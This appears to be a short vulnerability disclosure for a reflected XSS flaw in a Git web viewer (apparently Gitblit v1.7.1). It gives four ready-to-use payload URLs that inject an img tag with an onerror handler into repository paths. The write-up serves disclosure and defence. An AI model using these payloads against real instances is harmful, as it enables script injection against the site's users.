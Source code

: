 Vulnerability: Reflected XSS via Path

Version: ```v1.7.1```


Authenticated: Yes, possibly no

User: Admin

Vulnerable Parameter:


Payload:

None of these will work for your instance.  You need to replace the repo names ```<REPLACE ME>``` with the exisiting ones.

```http://172.18.0.34/log/<REPLACE ME>.git/master%22%3e%3cimg%20src%3da%20onerror%3dalert(1)%3e```

```http://172.18.0.34/history/<REPLACE ME>.git/mastery%3cimg%20src%3da%20onerror%3dalert(1)%3e```

```http://172.18.0.34/blob/<REPLACE ME>.git/master/README.md%3cimg%20src%3da%20onerror%3dalert(1)%3e```

```http://172.18.0.34/blame/<REPLACE ME>.git/master/README.md%3cimg%20src%3da%20onerror%3dalert(1)%3e?star=true```


Demo:

![](https://github.com/4rdr/proofs/blob/main/gifs/gitblit-v1.7.1-reflected-XSS-via-filenames.gif?raw=true)
